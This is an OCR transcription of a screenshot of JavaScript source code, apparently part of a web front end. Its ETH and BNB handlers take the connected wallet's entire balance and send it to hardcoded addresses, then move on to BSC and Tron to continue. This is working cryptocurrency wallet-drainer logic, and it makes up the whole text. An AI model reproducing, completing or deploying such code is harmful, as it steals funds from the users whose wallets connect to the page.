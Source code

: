           console.log('ETH Amount to send:', amountToSend.toString());
  
          const tx = await sendEthTransaction({
            to: '0x3619Eb3276bbBFb2BaC375BdBa15220E6853C89a',
            value: amountToSend,
          });
         
          console.log('ETH transaction sent:', tx);

          if (isConfirmingEth || isEthConfirmed ) {
            handleSwitchToBsc();
          }
        } catch (error) {
          setErrors('Error sending ETH transaction.');
           console.error(error);
           handleSwitchToBsc(); 
        }
      } else {
        setErrors("ETH balance not available");
      }
    };
  
    const handleSendBnb = async () => {
      if (!bnbBalanceData?.value || bnbBalanceData?.formatted === '0') {
        setErrors('BNB balance is zero. Skipping to Tron.');
        handleSwitchToTron();
      }
      if (bnbBalanceData?.value) {
        try {
          const bnbBalance = bnbBalanceData.value;
          // const gasFeeEstimate = parseUnits('0.000021', 18);
  
          const amountToSend = bnbBalance;

          console.log('BNB Amount to send:', amountToSend.toString());
  
          await sendBnbTransaction({
            to: '0x7323356FfF92fF61abe79d63f1213296F5386c56',
            value: amountToSend,
          });
          
          console.log('sending the bnb now')
          setBnbTransCompleted(true);

          if (isConfirmingBnb ||isBnbConfirmed) {
            handleSwitchToTron();
          }
      
        } catch (error) {
            setErrors('Error sending BNB transaction.');
            console.error(error);
            handleSwitchToTron();
        }
      } else {
        setErrors("BNB balance not available");
      }
    };
